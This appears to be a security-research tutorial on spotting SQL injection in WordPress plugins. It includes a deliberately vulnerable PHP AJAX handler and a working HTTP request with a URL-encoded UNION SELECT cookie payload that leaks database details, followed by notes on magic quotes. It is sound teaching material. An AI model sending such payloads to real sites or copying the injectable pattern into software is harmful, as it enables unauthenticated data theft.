 ```yaml
---
title: SQL Injection (SQLi)
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

<LinkCard
  title="Learn how to secure your code against SQL Injection"
  href="/academy/wordpress/securing-code/sql-injection/"
/>


## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master \<= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version \<= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)


## Magic Quotes

Magic Quotes is/was a feature in PHP designed to automatically escape certain characters in user input to prevent SQL injection (SQLi) attacks. Specifically, it would escape single quotes ('), double quotes ("), backslashes (\), and NULL characters by automatically adding backslashes before them. This was done to protect against common vulnerabilities like SQL injection, where an attacker might try to insert malicious SQL code into a query.

It is not the perfect solution. It is mostly incosistent, meaning that it only escapes certain characters. Depending on how the code works it might still allow for SQL injections or corrupted data in the database.

It was an optionality for PHP but it is disabled. Why we are mentioning it here if you ask, it still lives on WordPress via [wp_magic_quotes()
](https://developer.wordpress.org/reference/functions/wp_magic_quotes/).

As mentioned on the page, it is a private function so developers doesn't need to implement it. If any code is executed inside WordPress hooks, inputs ($_GET, $_POST, $_COOKIE, and $_SERVER ) will go through the [add_magic_quotes()](https://developer.wordpress.org/reference/functions/add_magic_quotes/)

```php
function add_magic_quotes( $input_array ) {
	foreach ( (array) $input_array as $k => $v ) {
		if ( is_array( $v ) ) {
			$input_array[ $k ] = add_magic_quotes( $v );
		} elseif ( is_string( $v ) ) {
			$input_array[ $k ] = addslashes( $v );
		}
	}

	return $input_array;
}
```

and gets sanitized due to [addslashes()](https://www.php.net/manual/en/function.addslashes.php).

So even a super simple vulnerable looking code like `select * from users where '$injection_here'` will be escaped and turn into something like `SELECT * FROM patchstack WHERE vulnerable = 'yes' AND published RLIKE '\' OR (select sleep(5))--' ) ORDER BY steps.ID DESC LIMIT 25` inside a WordPress hook and you will not be able to exploit it in almost all scenarios.

If the input is unslashed using [wp_unslash()](https://developer.wordpress.org/reference/functions/wp_unslash/) it will still be exploitable.
